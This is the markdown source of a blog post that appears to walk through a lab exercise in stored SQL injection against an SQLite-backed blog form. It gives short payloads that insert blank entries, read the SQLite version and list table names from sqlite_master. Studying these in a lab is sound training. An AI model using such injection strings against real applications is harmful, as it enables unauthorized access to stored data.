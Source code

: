 ```yaml
---
layout: post
title: SQL Injection -Stored (SQLite)
categories:
  - Web-Pentesting
---
```


<br>..

![142](https://teckk2.github.io/assets/images/Web%20Pentest/A1/142.png)
![143](https://teckk2.github.io/assets/images/Web%20Pentest/A1/143.png)
![144](https://teckk2.github.io/assets/images/Web%20Pentest/A1/144.png)
<br>Let’s try with single quote
![145](https://teckk2.github.io/assets/images/Web%20Pentest/A1/145.png)
![146](https://teckk2.github.io/assets/images/Web%20Pentest/A1/146.png)
<br>The entry was added but it’s not showing anything which mean we found the SQLi
<br>Now we have to find the correct syntax so we can see the output of the sqli on the webpage
![147](https://teckk2.github.io/assets/images/Web%20Pentest/A1/147.png)
<br>**','');**
![148](https://teckk2.github.io/assets/images/Web%20Pentest/A1/148.png)
<br>As you can see with **','');** we could add a blank entry in the blog
![149](https://teckk2.github.io/assets/images/Web%20Pentest/A1/149.png)
<br>**', sqlite_version());**
![150](https://teckk2.github.io/assets/images/Web%20Pentest/A1/150.png)
![151](https://teckk2.github.io/assets/images/Web%20Pentest/A1/151.png)
<br>**', (SELECT name FROM sqlite_master WHERE type='table'));**
![152](https://teckk2.github.io/assets/images/Web%20Pentest/A1/152.png)
<br>Table name is **blog**, using this method you can enumerate it further.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>


